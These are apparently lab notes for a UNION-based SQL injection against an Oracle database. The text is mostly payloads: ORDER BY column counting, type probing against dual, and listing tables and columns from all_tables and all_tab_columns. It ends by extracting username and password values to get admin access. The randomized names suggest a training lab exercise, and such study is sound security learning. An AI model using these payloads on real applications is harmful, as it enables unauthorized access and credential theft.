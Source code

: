 # listing on Oracle database

list query

``` sqli
select * from all_tables
```

listing via column query

``` sqli
select * from all_tab_column where table_name='Users'
```

end goal : listing content of database

need to find columns

```sqli
' order by 1--
' order by 2--
```

two columns

String data type query

```sqli
' union select 'a', 'a' from dual--
```

both column contains string

finding tables name

```sqli
' union select table_name, NULL from all_tables-- 
```

got the tables

now retireving more the data of column

```sqli
' union select column_name, NULL from all_tab_columns where table_name='USERS_ERVCVG
'-- 
```

got the column of user and password

``` sqli
' union select USERNAME_HZHOFM
, PASSWORD_MHVDJN from USERS_ERVCVG-- 
```

got the password for admin access
